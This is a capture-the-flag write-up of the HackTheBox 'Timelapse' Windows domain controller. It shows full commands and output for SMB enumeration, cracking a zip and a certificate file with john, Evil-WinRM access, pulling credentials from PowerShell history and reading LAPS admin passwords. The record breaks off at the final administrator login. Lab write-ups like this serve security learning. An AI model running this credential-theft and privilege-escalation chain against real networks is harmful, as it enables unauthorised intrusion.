


# [EASY] Timelapse <br/>



# [EASY] Timelapse <br/>


# <span style="color:red">Introduction</span> 

<br />
**Timelapse**, classified as "**Easy**" on HackTheBox, presented a unique challenge for me due to my limited experience with Windows machines.
<br />

During the initial enumeration with Nmap, a multitude of open ports were discovered, hinting at the possibility of a **domain controller** configuration. Such controllers are responsible for central authentication and authorization services.
<br />

A notable discovery was made when investigating **SMB**, revealing the presence of a file named "**winrm_backup.zip**." This file, upon further examination using the "**zip2john**" tool, revealed the existence of a "**pfx**" file nested within. Typically, a "pfx" file serves as a bundle containing both **private** and **public** keys. Utilizing "**pfx2john**," the hash was successfully cracked, and through the use of **OpenSSL**, both the private and certificate keys were extracted.
<br />

With the acquired "pfx" key and **Win-RM**, I gained access and successfully logged in as the user "**legacyy**." Further exploration of the **PowerShell history** uncovered credentials for the user "**svc_deploy**," enabling me to assume the identity of "svc_deploy."
<br />

It was then revealed that the user "svc_deploy" belonged to the **LAPS** group, a common privilege granting group that often holds permissions to access administrator passwords. Leveraging this access, I successfully elevated my privileges to obtain the coveted "**root**" user status.
<br />

This challenge proved to be a valuable learning experience, especially considering my relative unfamiliarity with Windows-based systems. Throughout the process, I acquired new knowledge about "pfx" files, the utilization of Win-RM, OpenSSL, and the identification of potential privilege escalation opportunities on Windows machines.
<br />


# <span style="color:red">Box Info</span>

<table>
  <thead>
    <tr>
      <th>Name</th>
    <th style="text-align: right"><a href="https://affiliate.hackthebox.com/box?box=timelapse" target="_blank" style="font-size: xx-large; : 0 0 5px #ffffff, 0 0 3px #ffffff; color: #ffffff">
      Timelapse
      </a><br /></th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>OS</td>
      <td style="text-align: right"><a style="font-size: x-large; : 0 0 5px #ffffff, 0 0 7px #ffffff; color: #2020E">
      Windows
      </a></td>
    </tr>
     <tr>
      <td>1st User blood</td>
      <td style="text-align: right"><a href="https://www.hackthebox.eu/home/users/profile/77141"></a></td>
    </tr>
    <tr>
      <td>1st System blood</td>
      <td style="text-align: right"><a href="https://www.hackthebox.eu/home/users/profile/9267"></a></td>
    </tr>
  </tbody>
</table>


# <span style="color:red">Enuemeration</span>
## Scanning for open ports using Nmap

16 ports are open, this looks like typical Hackthebox Windows machine:
<br />
```bash
┌──(yoon㉿kali)-[~/Documents/htb/timelapse]
└─$ sudo nmap -sT -p- -T4 -oN nmap/openportscan 10.10.11.152 -vv   

# Nmap 7.93 scan initiated Sat Sep 23 12:08:59 2023 as: nmap -sT -p- -T4 -oN nmap/openportscan -vv 10.10.11.152
Nmap scan report for 10.10.11.152
Host is up, received echo-reply ttl 127 (0.54s latency).
Scanned at 2023-09-23 12:08:59 EDT for 1208s
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5986/tcp  open  wsmans           syn-ack
9389/tcp  open  adws             syn-ack
49667/tcp open  unknown          syn-ack
49673/tcp open  unknown          syn-ack
49674/tcp open  unknown          syn-ack
49696/tcp open  unknown          syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Sep 23 12:29:07 2023 -- 1 IP address (1 host up) scanned in 1208.48 seconds
```

## Nmap version scan

| Port # | Service | Port # | Service |
|----------|----------|----------|----------|
| 53 | Simple DNS Plus | 3269 | LDAP |
| 88 | Kerberos-sec | 464 | kpasswd5 |
| 135 | MSRPC | 5986 | WinRM |
| 139 | SMB | 9389 | mc-nmf |
| 445 | SMB | 49667 | MSRPC |
| 389 | LDAP | 49673 | ncacn_http |
| 636 | LDAP | 49674 | MSRPC |
| 3268 | LDAP | 49696 | MSRPC |

<br />
For port 3268(LDAP), domain is discovered as **timelapse.htb**.
I'll add **timelapse.htb** and **dc01.timelapse.htb** to ```/etc/hosts```
<br />
We got Kerberos, LDAP, DNS, and SMB all together, and this looks like a domain controller. 
<br />

>A Domain Controller (DC) is a server in a Windows-based network that is responsible for central authentication and authorization services. It plays a crucial role in a Windows Active Directory (AD) environment, which is a directory service developed by Microsoft for managing and organizing resources in a network.
<br />
>LDAP, or Lightweight Directory Access Protocol, is a protocol used for accessing and managing directory information services. It's an open and standardized protocol that runs over the TCP/IP network stack, and it's widely used for directory services, such as user authentication, user information lookup, and directory maintenance.


```bash
┌──(yoon㉿kali)-[~/Documents/htb/timelapse]
└─$ sudo nmap -sVC -p 53,88,135,139,389,445,464,636,3268,3269,5986,9389,49667,49673,49674,49696 -vv -oN nmap/vulnscan 10.10.11.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-23 20:49 EDT
<snip>

PORT      STATE SERVICE           REASON          VERSION
53/tcp    open  domain            syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-09-24 08:49:11Z)
135/tcp   open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?     syn-ack ttl 127
464/tcp   open  kpasswd5?         syn-ack ttl 127
636/tcp   open  ldapssl?          syn-ack ttl 127
3268/tcp  open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 127
5986/tcp  open  ssl/http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-25T14:05:29
| Not valid after:  2022-10-25T14:25:29
| MD5:   e233a19945040859013fb9c5e4f691c3
| SHA-1: 5861acf776b8703fd01ee25dfc7c9952a4477652
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQLRY/feXALoZCPZtUeyiC4DANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwHhcNMjExMDI1MTQwNTI5WhcN
| MjIxMDI1MTQyNTI5WjAdMRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDJdoIQMYt47skzf17SI7M8jubO
| rD6sHg8yZw0YXKumOd5zofcSBPHfC1d/jtcHjGSsc5dQQ66qnlwdlOvifNW/KcaX
| LqNmzjhwL49UGUw0MAMPAyi1hcYP6LG0dkU84zNuoNMprMpzya3+aU1u7YpQ6Dui
| AzNKPa+6zJzPSMkg/TlUuSN4LjnSgIV6xKBc1qhVYDEyTUsHZUgkIYtN0+zvwpU5
| isiwyp9M4RYZbxe0xecW39hfTvec++94VYkH4uO+ITtpmZ5OVvWOCpqagznTSXTg
| FFuSYQTSjqYDwxPXHTK+/GAlq3uUWQYGdNeVMEZt+8EIEmyL4i4ToPkqjPF1AgMB
| AAGjRjBEMA4GA1UdDwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcDATAdBgNV
| HQ4EFgQUZ6PTTN1pEmDFD6YXfQ1tfTnXde0wDQYJKoZIhvcNAQELBQADggEBAL2Y
| /57FBUBLqUKZKp+P0vtbUAD0+J7bg4m/1tAHcN6Cf89KwRSkRLdq++RWaQk9CKIU
| 4g3M3stTWCnMf1CgXax+WeuTpzGmITLeVA6L8I2FaIgNdFVQGIG1nAn1UpYueR/H
| NTIVjMPA93XR1JLsW601WV6eUI/q7t6e52sAADECjsnG1p37NjNbmTwHabrUVjBK
| 6Luol+v2QtqP6nY4DRH+XSk6xDaxjfwd5qN7DvSpdoz09+2ffrFuQkxxs6Pp8bQE
| 5GJ+aSfE+xua2vpYyyGxO0Or1J2YA1CXMijise2tp+m9JBQ1wJ2suUS2wGv1Tvyh
| lrrndm32+d0YeP/wb8E=
|_-----END CERTIFICATE-----
|_ssl-date: 2023-09-24T08:50:47+00:00; +7h59m56s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m55s, deviation: 0s, median: 7h59m55s
| smb2-time: 
|   date: 2023-09-24T08:50:08
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 10878/tcp): CLEAN (Timeout)
|   Check 2 (port 32357/tcp): CLEAN (Timeout)
|   Check 3 (port 59182/udp): CLEAN (Timeout)
|   Check 4 (port 22941/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

<snip>
Nmap done: 1 IP address (1 host up) scanned in 112.21 seconds
           Raw packets sent: 20 (856B) | Rcvd: 17 (732B)
```

## SMB enumeration
In this context, the dollar sign ($) is used to indicate administrative or hidden shares on a Windows file or print server. These shares have names that end with a dollar sign, and they serve specific purposes:
<br />
1. **ADMIN$**: This is an administrative share used for remote administration of the server. It provides access to the Windows folder on the server.

2. **C$**: This is another administrative share, and it represents the root directory of the server's system drive (typically the C: drive). It allows administrators to access the system drive remotely.

3. **IPC$**: This is an IPC (Inter-Process Communication) share used for remote IPC access. It's often used for administrative purposes.

4. **NETLOGON**: This share is typically found on domain controllers and contains logon scripts used during the login process for network clients.

5. **SYSVOL**: Similar to NETLOGON, this share is also found on domain controllers and contains policies, scripts, and other data used for managing Windows domain settings.
<br />

**ADMIN$**, **C$**, and **IPC$** requires admin access so I skipped looking into it.
<br />
**NETLOGON** and **SYSVOL** are default standalone for any domain controller.
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/timelapse]
└─$ smbclient -L 10.10.11.152
Password for [WORKGROUP\yoon]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```


<br />
Only **Shares** was working and others were either access denied or not working:
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/timelapse]
└─$ smbclient --no-pass //10.10.11.152/Shares  
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

		6367231 blocks of size 4096. 2464979 blocks available
smb: \> 
```
<br />
I downloaded all the files in folder **Dev** and **HelpDesk**.
<br />
**/Dev/winrm_backup.zip** must be something interesting.
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/timelapse/smb]
└─$ smbclient --no-pass //10.10.11.152/Shares
Try "help" to get a list of possible commands.
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

		6367231 blocks of size 4096. 2464527 blocks available
smb: \Dev\> cd ../HelpDesk
smb: \HelpDesk\> ls
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021

		6367231 blocks of size 4096. 2464527 blocks available
smb: \HelpDesk\> 
```

### zip2john

I tried unzipping the backup file but it required password:
<br />
```bash
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```
<br />
I used zip2john to crack the passwowrd:
<br />
```bash
                                                                                        
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ zip2john winrm_backup.zip > ../../hash.zip
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
                                                                            
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ cd ../..
         
┌──(yoon㉿kali)-[~/Documents/htb/timelapse/smb]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.zip 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-09-23 21:24) 2.564g/s 8906Kp/s 8906Kc/s 8906KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br />
I found the password: **supremelegacy**
<br />
Unzipping the file with the found password, I **legacyy_dev_auth.pfx** file was extracted:
<br />
```bash
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    
                                                                                         
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ ls
legacyy_dev_auth.pfx  winrm_backup.zip
```
## legacyy_dev_auth.pfx

A file with a .pfx extension typically represents a **Personal Information Exchange** file. It's a binary format file used for securely storing a combination of private keys and a public key certificate, typically in the context of secure communications and cryptography.
<br />

Here are some common uses of .pfx files:
<br />

1. **SSL/TLS Certificates**: .pfx files are often used to store SSL/TLS certificates and their associated private keys. These certificates are used to secure websites and encrypt data transmitted over HTTPS connections.
<br />

2. **Code Signing Certificates**: Developers and software publishers use .pfx files to sign software executables and scripts, ensuring the authenticity and integrity of the code.
<br />

3. **Email Encryption**: .pfx files can also be used for email encryption and digital signatures, securing email communication.
<br />

4. **Client Authentication**: In some cases, .pfx files are used for client authentication, allowing users to securely access web applications and services.
<br />

These files are typically password-protected to ensure that the private key remains secure. To use a .pfx file, you often need to provide the password associated with it. The file format is used in various platforms and software, including Microsoft Windows and many web server software like Apache and Nginx for configuring SSL/TLS certificates.
<br />

# <span style="color:red">Extracting keys from .pfx file</span>

[This article](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) taught me how to extract public and private key from **.pfx** file.
<br />
If I can successfully extract the keys, I'll be able to gain access to system through WinRM. 
<br />
However, this requires password that was set when generating **.pfx** file:
<br />

```bash
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -out legacyy_certificate.pem -clcerts
Enter Import Password:
Mac verify error: invalid password?
```
<br />
Using **pfx2john**, I got hash for the file and cracked it using **john**:
<br />

```bash
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ pfx2john legacyy_dev_auth.pfx > legaccy.hash

┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt legaccy.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:16 8.67% (ETA: 03:25:14) 0g/s 87104p/s 87104c/s 87104C/s pimpioso..piglet9161
0g 0:00:00:19 10.36% (ETA: 03:25:13) 0g/s 86932p/s 86932c/s 86932C/s juggalo11..juancarlod
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:38 DONE (2023-09-24 03:22) 0.02596g/s 83897p/s 83897c/s 83897C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br />
Now I have the password: **thuglegacy**
<br />
So basically, **pfx** file is like a bundle of keys and it is likely **legacyy_dev_auth.pfx** file has both private key and certificate (public) key inside of it. 
<br />
I am going to extract private key and certificate key one at a time.
<br>

**Extracting private key:**
<br />
```bash
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes 
Enter Import Password: thuglegacy
```
<br />
```-nocerts``` is for not extracting certificate key.
<br />
```-nodes``` indicates that the private key should remain unencrypted, i.e., in plain text.
<br />

**Extracting certificate key:**

<br />
```bash
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert                   
Enter Import Password: thuglegacy
```
<br />
With both private and certificate key extracted, I'll be able to gain access to system using WinRM.

# <span style="color:red">Exploitation using Evil-WinRM</span>

**evil-winrm** probably is the best and most well-known tool when it comes to connecting to **winrm** on Linux:
<br />
**WinRM** usually runs on 5985 and 5986.
<br />
For my case, it is running on 5986 meaning that the connection is wrapped with SSL.
<br />
Looking at the help page for **WinRM**, flag **-S,-c,-k** should be used:
<br />
```bash
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
```
<br />

Running WinRM, now I have access to the system as legacyy:
<br />
```powershell
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ evil-winrm -i timelapse.htb -S -k key.pem -c key.cert                
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```
<br />

On ```\Users\legacyy\Desktop```, I was able to locate **user.txt**:
<br />
```bash
*Evil-WinRM* PS C:\Users\legacyy\Desktop> ls


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/23/2023   5:08 PM             34 user.txt
```
# <span style="color:red">privesc legacyy->svc_deploy</span>

Listing users at ```\Users```, I see there's other none-root users: **svc_deploy** and **TRX**.
<br />

```powershell
*Evil-WinRM* PS C:\Users> dir

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/23/2021  11:27 AM                Administrator
d-----       10/25/2021   8:22 AM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy
d-----        2/23/2022   5:45 PM                TRX
```

<br />
There's nothing special about user legacyy:
<br />

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user legacyy
User name                    legacyy
Full Name                    Legacyy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/23/2021 12:17:10 PM
Password expires             Never
Password changeable          10/24/2021 12:17:10 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   9/24/2023 10:41:12 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *Development
The command completed successfully.
```

## PowerShell History

I was aware of **.bash_history** file but I didn't know powershell has something equivalent. 
<br />
**ConsoleHost_history.txt** is enabled by default starting from powershell v5 on windows 10.
<br />
This is really interesting because this way I can see what command the user has been typing, and if lucky, even a credentials. 
<br />
This file is usually located at ```$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```
<br />
You can see where this file is located by running ```Get-PSReadlineOption``` command:
<br />

```powershell
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> Get-PSReadlineOption


EditMode                               : Windows
AddToHistoryHandler                    :
HistoryNoDuplicates                    : True
HistorySavePath                        : C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ServerRemoteHost_history.txt
HistorySaveStyle                       : SaveIncrementally
HistorySearchCaseSensitive             : False
HistorySearchCursorMovesToEnd          : False
MaximumHistoryCount                    : 4096
ContinuationPrompt                     : >>
ExtraPromptLineCount                   : 0
PromptText                             :
BellStyle                              : Audible
DingDuration                           : 50
DingTone                               : 1221
CommandsToValidateScriptBlockArguments : {ForEach-Object, %, Invoke-Command, icm...}
CommandValidationHandler               :
CompletionQueryItems                   : 100
MaximumKillRingCount                   : 10
ShowToolTips                           : True
ViModeIndicator                        : None
WordDelimiters                         : ;:,.[]{}()/\|^&*-=+'"–—―
CommandColor                           : "$([char]0x1b)[93m"
CommentColor                           : "$([char]0x1b)[32m"
ContinuationPromptColor                : "$([char]0x1b)[37m"
DefaultTokenColor                      : "$([char]0x1b)[37m"
EmphasisColor                          : "$([char]0x1b)[96m"
ErrorColor                             : "$([char]0x1b)[91m"
KeywordColor                           : "$([char]0x1b)[92m"
MemberColor                            : "$([char]0x1b)[97m"
NumberColor                            : "$([char]0x1b)[97m"
OperatorColor                          : "$([char]0x1b)[90m"
ParameterColor                         : "$([char]0x1b)[90m"
SelectionColor                         : "$([char]0x1b)[30;47m"
StringColor                            : "$([char]0x1b)[36m"
TypeColor                              : "$([char]0x1b)[37m"
VariableColor                          : "$([char]0x1b)[92m"
```
<br />
Looking into **ConsoleHost_history.txt**, I was able to find a password:
<br />
```powershell
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
<br />
With password found for **svc_deploy** I can signin to system using **winrm**:
<br />

```powershell
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```
# <span style="color:red">privesc syc_deploy->root</span>

No more privilege to **svc_deploy**:
<br />
```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
<br />
User **svc_deploy** is in **LAPS_Reader** group:
<br />
```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

> In Windows, LAPS stands for "**Local Administrator Password Solution**." It is a Microsoft solution designed to address the security risks associated with the use of a common local administrator password on multiple computers in an organization's network.

> The primary goal of LAPS is to improve security by eliminating the use of a common, easily guessable local administrator password across all systems. Instead, each computer has its unique, frequently rotated password. This reduces the risk of attackers gaining unauthorized access to systems by exploiting a known password.

With LAPS, the DC manages the local administrator passwords for computers on the domain. It is common to create a group of users and give them permissions to read these passwords, allowing the trusted administrators access to all the local admin passwords.
<br />

## Read password
```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>  Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : ,05Uht;PL,LoF09l[%m6593k
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```
<br />
In order to read LAPS password, I need to use **Get-ADComputer** and request **ms-mcs-admpwd**:
<br />

```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>  Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : ,05Uht;PL,LoF09l[%m6593k
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```

<br />
Now that I have **administrator** password, let's signin again as administraotr:
<br />

```powershell                                                                             
┌──(yoon㉿kali)-[~/…/timelapse/smb/Shares/Dev]
└─$ evil-winrm -i timelapse.htb -S -u administrator -p ',05Uht;PL,LoF09l[%m6593k'
                                        
Evil-WinRM shell v3.5
                                        
